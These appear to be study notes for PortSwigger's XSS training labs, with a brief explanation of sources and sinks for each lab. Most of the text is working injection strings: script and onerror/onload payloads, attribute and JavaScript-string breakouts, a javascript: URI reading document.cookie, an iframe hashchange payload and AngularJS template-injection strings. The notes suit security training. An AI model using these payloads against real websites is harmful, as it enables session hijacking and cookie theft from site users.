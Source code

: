 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



### Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



### Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### LAB: Reflected XSS into a JavaScript string with angle brackets HTML encoded

When you’re dealing with Reflected XSS into a JavaScript string, and angle brackets < > are HTML-encoded or filtered, you can still exploit XSS without any HTML tags.

```
";alert(1);//         // closes quote and runs JS
'+alert(1)+'         // using concatenation
'-alert(1)-'         // works too
"/1/+alert(1)//      // division with alert
"/a/+alert(1)//      // forces type coercion
"+alert(1)+""        // string concat, safe from HTML filter
"+alert(String.fromCharCode(88,83,83))+"
```


### LAB: DOM XSS in document.write sink using source location.search inside a select element

payload:
```
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```


{{$on.constructor('alert(1)')()}}
{{$WA.constructor('alert(1)')()}}
